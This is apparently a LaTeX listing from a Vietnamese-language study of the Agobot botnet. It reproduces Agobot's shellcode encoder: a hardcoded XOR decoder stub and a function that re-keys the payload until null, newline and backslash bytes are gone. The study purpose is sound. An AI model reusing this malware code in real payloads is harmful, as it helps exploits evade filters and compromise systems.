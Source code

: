 \begin{listing}[ht]
\caption{Hàm mã hoá shellcode của Agobot (thuộc file \texttt{shellcode.cpp})}
\label{code:encoder}
\begin{verbatim}
char encoder[] = "\xEB\x02\xEB\x05\xE8\xF9\xFF\xFF\xFF\x5B\x31\xC9\x66\xB9\xFF\xFF"
         "\x80\x73\x0E\xFF\x43\xE2\xF9";
#define ENCODER_OFFSET_SIZE 14 // Offset for size of the encoder
#define ENCODER_OFFSET_XORKEY 19 // Offset for the xor key

bool contains(char* szBuf, int iSize, char cChar) {
  for (int i = 0; i < iSize; i++) {if (szBuf[i] == cChar) {return true; } }
  return false; }

int encrypt_shellcode(char* szOrigShell, int iOrigShellSize, char* szShellBuf,
  int iShellBufSize, SCCallbackFunc pfnSC) {
  int iSCSize = iOrigShellSize, iEncoderSize = sizeof(encoder);
  int xorkey = 0x98;
  // Create local copies of the shellcode and encoder
  char* szShellCopy = (char*)malloc(iSCSize);
  memset(szShellCopy, 0, iSCSize);
  memcpy(szShellCopy, szOrigShell, iSCSize);
  char* szEncoderCopy = (char*)malloc(iEncoderSize);
  memset(szEncoderCopy, 0, iEncoderSize);
  memcpy(szEncoderCopy, encoder, iEncoderSize);
  if (pfnSC) {pfnSC(szShellCopy, iSCSize); }
  char* szShellBackup = (char*)malloc(iSCSize);
  memset(szShellBackup, 0, iSCSize);
  memcpy(szShellBackup, szShellCopy, iSCSize);

  // Set the content size in the encoder copy
  char* szShellLength = (char*)&iSCSize;
  szEncoderCopy[ENCODER_OFFSET_SIZE] = (char)szShellLength[0];
  szEncoderCopy[ENCODER_OFFSET_SIZE + 1] = (char)szShellLength[1];

  // XOR the shellcode while it contains 0x5C, 0x00, 0x0A or 0x0D
  while (contains(szShellCopy, iSCSize, '\x5C') || contains(szShellCopy, iSCSize, '\x00') ||
    contains(szShellCopy, iSCSize, '\x0A') || contains(szShellCopy, iSCSize, '\x0D')) {
    memcpy(szShellCopy, szShellBackup, iSCSize);
    xorkey++;
    for (int i = 0; i < iSCSize; i++) {szShellCopy[i] = szShellCopy[i] ^ xorkey; }
    szEncoderCopy[ENCODER_OFFSET_XORKEY] = xorkey;
  }
  free(szShellBackup);
  // Clear the buffer with '\x00'
  memset(szShellBuf, 0, iShellBufSize);
  int iPos = 0;
  // Append the encoder copy
  memcpy(szShellBuf + iPos, szEncoderCopy, iEncoderSize);
  iPos += iEncoderSize;
  // Append the shellcode copy
  memcpy(szShellBuf + iPos - 1, szShellCopy, iSCSize);
  iPos += iSCSize;
  free(szEncoderCopy);
  free(szShellCopy);
  return iPos;
}
\end{verbatim}
\end{listing}


